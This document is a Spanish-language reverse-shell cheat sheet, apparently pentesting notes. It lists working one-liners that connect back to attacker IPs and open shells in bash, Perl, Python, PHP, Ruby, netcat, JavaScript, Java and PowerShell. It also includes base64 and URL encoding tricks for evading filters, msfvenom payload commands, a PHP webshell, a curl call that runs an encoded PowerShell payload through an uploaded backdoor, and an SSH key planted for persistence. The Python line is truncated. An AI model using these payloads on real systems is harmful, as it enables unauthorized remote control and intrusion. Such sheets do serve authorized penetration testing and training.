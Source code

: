 • Bash:

```
bash -i >& /dev/tcp/10.10.14.16/1234 0>&1
```

**!!NOTA IMPORTANTE!!**

	Si va en una URL es recomendable utilizar URL Encoding bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1' -----> bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.16/443%200%3E%261%27

	También es importante en determinados casos ENCODEAR en base64

```
# Creación:
echo "bash -i >& /dev/tcp/10.10.14.38/1234 0>&1" | base64
# Ejecución:
echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zOC8xMjM0IDA+JjEK | base64 -d | bash
```

• Perl:

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

• Python:

```
#OPCIÓN 1:
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

• PHP:
	* webshell

```
<?php system($_GET['cmd']); ?> 
```

	* One-liner

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

	* Ficheros para subir:
	 Kali: usr/share/webshells/php/php-reverse-shell.php
	 Mejor opción: https://github.com/pentestmonkey/php-reverse-shell

	* Metasploit

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```
 
* Ruby:

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


• Netcat:

```
# Linux:
nc -e /bin/sh <<IP>> <<LPORT>>
nc -e /bin/bash <<IP>> <<LPORT>>

# Windows
nc -e cmd <<IP>> <<LPORT>>

# Netcat (Wrong Version),suele funcionar
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

• JavaScript:

```
(function(){  
var net = require(“net”),  
cp = require(“child_process”),  
sh = cp.spawn(“/bin/bash”, []);  
var client = new net.Socket();  
client.connect(21, “192.168.49.248”, function(){  
client.pipe(sh.stdin);  
sh.stdout.pipe(client);  
sh.stderr.pipe(client);  
});  
return /a/;  
})();
```
• Java:


```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

• ASP (No Metasploit):

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```


• WAR (Sesión vía Netcat):

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

• JSP (Sesión vía Netcat):

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```

* Powershell One-Liner

```
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

#Ejecución con curl

curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
```

* Si tenemos conexion a la maquina y SSH
```
echo "ssh-rsa <<id_rsa.pub>> > /home/pablo/.ssh/authorized_keys
```

#### Mas información
*  https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet